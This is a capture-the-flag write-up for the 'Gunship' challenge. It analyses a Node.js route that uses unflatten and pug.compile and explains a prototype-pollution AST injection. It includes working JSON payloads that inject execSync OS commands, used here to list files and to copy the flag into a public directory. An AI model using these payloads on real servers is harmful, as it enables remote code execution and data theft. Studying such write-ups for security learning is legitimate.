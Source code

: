 # Gunship
![Screenshot from 2021-08-19 11-26-14](https://user-images.githubusercontent.com/87865134/130007638-508df4b1-2923-422b-9df1-7635bf7b804b.png)

## - Analysis source code
- in **router**:
```JavaScript
router.post('/api/submit', (req, res) => {
  const { artist } = unflatten(req.body);
  
  if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
	  return res.json({
		  'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
	  });
  } else {
	  return res.json({
		  'response': 'Please provide us with the full name of an existing member.'
	  });
  }
});
```
> use `unflatten()` and `pug.compile()` => maybe **AST injection**

## - Exploit:
1. Use Burpsuite to intercept request and change body data to excute code
  - payload:
  ```
  {"artist.name":"Haigh",
  "__proto__.block": {
          "type": "Text", 
          "line": "process.mainModule.require('child_process').execSync(`os-command-here`)"
      }
  }
  ```

2. Result of **os-command** isnt in response
  - To get result:
    - output to file in public directory
    - out-of-band channel
 
3. Output result to file in public directory
  - list files in current directory:
  ```
  {
    "artist.name":"Haigh",
    "__proto__.block": {
            "type": "Text", 
            "line": "process.mainModule.require('child_process').execSync(`ls > /app/static/js/out.txt`)"
        }
  }
  ```
  ![Screenshot from 2021-08-19 11-44-04](https://user-images.githubusercontent.com/87865134/130009126-d7561ff2-0225-4d59-9ad8-c67a043fc706.png)

  - read content of **flag** file:
  ```
  {
    "artist.name":"Haigh",
    "__proto__.block": {
            "type": "Text", 
            "line": "process.mainModule.require('child_process').execSync(`cat flag5pfRo > /app/static/js/out.txt`)"
        }
    }
  ```
  ![Screenshot from 2021-08-19 11-45-30](https://user-images.githubusercontent.com/87865134/130009250-cfeb2b7b-65ff-41c9-93f2-e69a955e80a8.png)

## - Description:
> ***category:*** AST injection

## - Reference:
- [Nodejs AST injection](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug)
